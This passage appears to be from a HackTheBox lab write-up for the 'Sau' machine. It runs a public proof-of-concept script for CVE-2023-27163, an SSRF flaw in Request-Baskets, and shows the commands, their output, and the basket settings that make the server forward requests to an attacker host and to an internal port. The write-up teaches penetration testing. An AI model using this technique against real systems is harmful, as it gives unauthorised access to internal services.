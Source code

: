 #### **SSRF CVE-2023-27163**

Using the following exploit bash [script](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh) to exploit the SSRF vulnerability  

```console
(kali㉿0xRyuzak1)-[~/HTB/HTB Machines/sau/CVE-2023-27163]─$ ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://10.10.16.32/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "xwkbfp" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/xwkbfp now makes the server request to http://10.10.16.32/.
> Authorization: Y0TC2awtfgwNv0w9zhxY5lmLyOhcPY9i0RlaPfprVKu6
```

Now when we open the link with the basket ID which we create we find out that the target server make a request to our attacker machine 


![](/assets/img/hackthebox/machines writeups/Sau/SSRF.png)

What the Script do is creating a request basket and adjust its settings as following

- **forward_url** : This will be equal to the attacker server 
- **insecure_tls** : Set to false (This to check the SSL Cert since we will use http target server so it will not matter)
- **proxy_response** : Set to true will send response of the forwarded server back to our client
- **expand_path** : Set to true makes forward_url path expanded when original http request contains compound path.

So now let's try using this SSRF to accessing any internal services on the target server .

### **Internal Service - TCP 80**

As we found before we got from the nmap result that `port 80` is `filtered` so maybe we cannot communicate with it from outside until we have an help from within the network in which that service is running on. So let's trying this 

```console
(kali㉿0xRyuzak1)-[~/HTB/HTB Machines/sau/CVE-2023-27163]─$ ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1/  
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "qjnouh" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/qjnouh now makes the server request to http://127.0.0.1/.
> Authorization: HNPgJCphiRR6TBTkafrGxeOo3ylO69104-DpMMnA8it2
```

![](/assets/img/hackthebox/machines writeups/Sau/SSRF2.png)


As we can see we managed to communicate with port 80 on localhost 
